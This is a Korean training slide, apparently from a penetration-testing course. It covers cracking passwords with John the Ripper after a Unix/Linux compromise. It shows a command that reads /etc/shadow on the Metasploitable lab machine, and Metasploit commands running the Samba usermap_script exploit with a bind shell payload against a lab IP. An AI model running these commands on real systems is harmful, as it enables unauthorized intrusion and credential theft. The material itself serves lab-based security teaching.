

# 유닉스/리눅스 기반 침투 이후 JtR 사용
메타스플로이터블의 비밀번호 저장상태 확인
cat /etc/shadow | egrep “root”

usermap_script.rb 모듈을 이용한 침투
use exploit/multi/samba/usermap_script
set payload cmd/unix/bind_ruby
set rhost 192.168.10.204
set exitonsession false
exploit -j -z
14